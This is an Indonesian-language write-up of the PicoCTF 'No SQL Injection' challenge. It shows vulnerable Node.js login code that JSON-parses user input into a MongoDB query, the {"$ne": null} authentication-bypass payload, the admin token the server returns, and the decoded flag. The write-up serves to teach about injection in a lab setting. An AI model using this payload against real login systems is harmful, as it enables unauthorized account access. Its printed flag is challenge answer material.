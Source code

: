 # Writeup PicoCTF: No SQL Injection

[Akses Challenge disini](https://play.picoctf.org/practice/challenge/443?page=1&search=sql)

Di tantangan ini, kita diberikan sebuah website dengan halaman login. Tugas kita adalah mencoba masuk (login) untuk mendapatkan flag-nya, tapi tentu saja kita tidak tahu email dan password-nya.

![pico-no-sql](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql-inj/1.png)

## Overview

- **Nama Challenge**: No SQL Injection

## Menemukan Celah

Setelah mengunduh dan melihat source code yang diberikan, kita bisa menemukan celah keamanan pada bagian `server.js`, tepatnya di kode yang menangani proses login:

```javascript
app.post("/login", async (req, res) => {
  const { email, password } = req.body;
  try {
    const user = await User.findOne({
      email:
        email.startsWith("{") && email.endsWith("}")
          ? JSON.parse(email)
          : email,
      password:
        password.startsWith("{") && password.endsWith("}")
          ? JSON.parse(password)
          : password,
    });
```

**Masalah Utama**

Masalah utamanya ada pada baris `JSON.parse(email)` dan `JSON.parse(password)`. Kode ini memeriksa apakah input dari pengguna diawali dengan `{` dan diakhiri dengan `}`. Jika iya, server akan menganggapnya sebagai objek JSON dan langsung menggunakannya untuk mencari data di database MongoDB.

## Langkah Eksploitasi

### 1. Payload

```json
{
  "email": "{\"$ne\": null}",
  "password": "{\"$ne\": null}"
}
```

**Apa arti payload di atas?**
- `"$ne"` adalah operator MongoDB yang artinya *"Not Equal"* (tidak sama dengan).
- `{\"$ne\": null}` berarti "cari data apapun yang nilainya **tidak kosong**".

### 2. Mengirim Payload

Kita bisa menggunakan `curl` di terminal atau burpsuite untuk mengirim payload ini ke server.

![SQLI-2](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql-inj/2.png)

### 3. Mendapatkan Flag

Jika berhasil, server akan merespons dengan data user admin, termasuk sebuah `token`:

```json
{
  "success": true,
  "email": "admin@picoctf.org",
  "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",
  "firstName": "admin",
  "lastName": "user"
}
```

`token` tersebut di-encode menggunakan Base64. Untuk mendapatkan flag-nya, kita perlu men-decode token tersebut.

Bisa menggunakan tool online atau perintah di terminal:

```bash
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==" | base64 -d
```

![Decode](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql-inj/3.png)

Setelah di-decode, kita akan mendapatkan flag-nya:

> `picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}`